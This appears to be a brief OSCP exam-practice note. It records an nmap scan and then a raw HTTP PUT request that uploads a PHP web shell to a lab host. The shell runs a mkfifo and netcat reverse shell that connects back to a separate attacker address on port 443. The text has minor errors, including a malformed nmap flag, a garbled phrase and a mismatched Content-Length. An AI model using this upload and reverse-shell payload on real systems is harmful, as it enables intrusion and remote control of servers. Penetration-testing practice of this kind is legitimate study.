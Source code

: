 # OSCP_Practice

nmap -SV -p- 192.168.1.107<br/>

use burp to inves by<br/>

====================================
PUT /test/shell.php HTTP/1.1 <br/>
Host: 192.168.1.108<br/>
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0<br/>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8<br/>
Accept-Language: en-US,en;q=0.5<br/>
Accept-Encoding: gzip, deflate<br/>
Connection: close<br/>
Upgrade-Insecure-Requests: 1<br/>
Content-Length: 11<br/>

<?php echo shell_exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.43.2 443 >/tmp/f"); ?><br/>
====================================
x
